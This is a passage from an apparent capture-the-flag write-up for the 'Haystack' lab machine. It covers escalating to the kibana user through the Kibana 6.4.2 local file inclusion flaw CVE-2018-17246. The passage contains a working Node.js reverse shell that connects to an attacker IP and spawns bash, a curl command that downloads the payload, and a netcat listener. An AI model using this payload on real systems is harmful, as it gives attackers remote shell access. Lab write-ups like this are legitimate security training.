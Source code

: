 To be able to write to `/opt/kibana`, we need to be `kibana`. But how?

First, we will need to find out where is `kibana` is running from.

{% highlight bash %}
[security@haystack ~]$ ps aux | grep kibana
kibana     6401  0.4  5.0 1360968 194848 ?      Ssl  00:13   1:47 /usr/share/kibana/bin/../node/bin/node --no-warnings /usr/share/
kibana/bin/../src/cli -c /etc/kibana/kibana.yml
[security@haystack ~]$ ls /usr/share/kibana/bin
kibana  kibana-keystore  kibana-plugin
{% endhighlight %}

# Exploitation

We then find out what is the version of `kibana`.
{% highlight bash %}
[security@haystack ~]$ /usr/share/kibana/bin/kibana --version
6.4.2
{% endhighlight %}

This version of `kibana` is affected by the local file inclusion vulnerability [CVE-2018-17246](https://www.cvedetails.com/cve/CVE-2018-17246/). More information on how to exploit it could be found [here](https://github.com/mpgn/CVE-2018-17246)

Lets create a reverse shell file written in node.
{% highlight javascript %}
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/bash", []);
    var client = new net.Socket();
    client.connect(1337, "10.10.XXX.XXX", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
{% endhighlight %}

And transfer it over to the `Haystack` machine.
{% highlight bash %}
[security@haystack tmp]$ curl http://10.10.14.75/exploit.js > exploit.js
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   383  100   383    0     0    578      0 --:--:-- --:--:-- --:--:--   578
[security@haystack tmp]$ chmod 777 exploit.js
{% endhighlight %}

On our machine, we start a listener.
{% highlight bash %}
$ nc -lvnp 1337
listening on [any] 1337 ...
{% endhighlight %}
